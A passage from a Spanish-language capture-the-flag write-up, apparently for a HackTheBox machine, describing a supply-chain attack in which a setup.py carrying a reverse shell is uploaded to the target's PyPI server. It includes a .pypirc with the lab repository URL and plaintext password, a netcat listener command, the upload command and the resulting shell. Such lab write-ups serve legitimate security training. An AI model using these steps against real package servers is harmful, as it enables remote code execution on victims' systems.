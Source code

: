 La idea aqui es que cuando el pypi server ejecute el setup.py, queremos que nos entable una reverse shell. El codigo
de la reverse shell es de **monkey pentester** y la hemos retocado para que vaya en el fichero `setup.py`.

Configuramos el equipo para poder enviar el paquete al repositorio victima.

```bash
rm ~/.pypirc
vi ~/.pypirc
```

El contenido del fichero `.pypirc` seria

```bash
[distutils]
index-servers = remote

[remote]
repository = http://pypi.sneakycorp.htb:8080
username = pypi
password = soufianeelhaoui
```

Ahora podemos enviarlo

1. Nos ponemos en escucha en el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Enviamos el paquete al pypi server

    ```bash
    python3 setup.py sdist upload -r remote
    ```

1. Tenemos una shell pero primero nos a ejecutado desde nuestro propio equipo

    - no ponemos una vez mas en escucha al puerto 443

        ```bash
        nc -nlvp 443
        ```

    - en el primero shell le damos a exit

Y ya esta

```bash
whoami
#Output
Law
```

Ya le podemos hacer un nuevo tratamiento de la TTY.

## Escalada de privilegios {-}
